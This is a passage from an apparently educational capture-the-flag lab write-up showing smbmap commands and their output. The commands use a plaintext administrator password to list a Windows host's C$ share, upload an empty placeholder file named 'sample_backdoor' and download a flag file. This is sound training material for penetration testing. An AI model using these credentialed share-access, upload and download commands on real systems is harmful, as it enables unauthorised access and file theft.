 * List directory contents with `-r` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 -r 'C$'
```

```bash
[+] IP: 10.2.21.128:445	Name: 10.2.21.128                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Tue Feb 14 03:15:53 2023	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Tue Feb 14 03:30:25 2023	Windows
```

* Upload a sample file to the `C:\` drive

```bash
touch sample_backdoor
```

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 --upload '/root/sample_backdoor' 'C$\sample_backdoor'
```

```bash
[+] Starting upload: /root/sample_backdoor (0 bytes)
[+] Upload complete
```

* Download a file, the flag file in this case

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 --download 'C$\flag.txt'
```

```bash
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.2.21.128-C_flag.txt

cat 10.2.21.128-C_flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

### SMB: Recon
